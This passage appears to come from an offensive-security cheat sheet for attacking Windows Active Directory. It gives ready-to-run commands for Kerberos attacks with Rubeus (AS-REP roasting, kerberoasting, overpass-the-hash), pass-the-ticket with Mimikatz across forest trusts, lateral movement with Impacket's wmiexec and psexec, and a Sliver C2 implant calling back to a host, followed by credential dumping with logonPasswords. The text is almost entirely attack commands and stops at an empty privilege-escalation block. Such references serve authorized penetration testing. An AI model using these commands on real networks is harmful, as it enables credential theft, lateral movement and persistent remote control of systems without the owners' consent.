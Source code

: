 #### Rubeus (Kerberos Attacks)
- **Request a TGT for a specific user (ASREPRoast):**
  ```powershell
  Rubeus.exe asreproast
  ```
- **Overpass-the-Hash (Pass-the-Hash attack using Kerberos):**
  ```powershell
  Rubeus.exe ptt /user:USER /rc4:HASH
  ```
- **Kerberoasting (Get SPN hashes for offline cracking):**
  ```powershell
  Rubeus.exe kerberoast
  ```

### 3. **Trust Abuse in a Multi-Forest Environment**

Once credentials from one domain are obtained, attackers can move laterally into a trusted domain/forest by exploiting trust relationships.

- **Use Mimikatz to Pass-the-Ticket (PtT) into a trusted domain:**
  ```powershell
  mimikatz.exe
  kerberos::ptt <ticket.kirbi>
  ```
- **List domain trusts and access sensitive objects using PowerView:**
  ```powershell
  Get-NetForestTrust
  ```

### 4. **Impacket for Lateral Movement**

Impacket provides Python scripts that help move laterally, execute commands, or enumerate network shares on Windows networks.

- **Wmiexec.py for lateral movement (Remote Code Execution via WMI):**
  ```bash
  wmiexec.py domain/user:password@target_ip
  ```
- **Psexec.py for privilege escalation:**
  ```bash
  psexec.py domain/user:password@target_ip
  ```

### 5. **Using Sliver C2 for Maintaining Persistence**

Sliver is a Command and Control (C2) framework that supports cross-platform implants and integrates well with tools like Mimikatz, PowerView, and others.

#### Sliver Session Setup and Persistence
- **Generate an implant:**
  ```bash
  generate --mtls 192.168.1.1 --os windows --http
  ```
- **Deploy implant on target and start a session:**
  ```bash
  use beacon
  ```
- **Enumerate Active Directory:**
  ```bash
  use sharpview
  sharpview --all
  ```
- **Steal credentials using Mimikatz:**
  ```bash
  use mimikatz
  mimikatz logonPasswords
  ```
- **Escalate privileges:**
  ```bash
  ```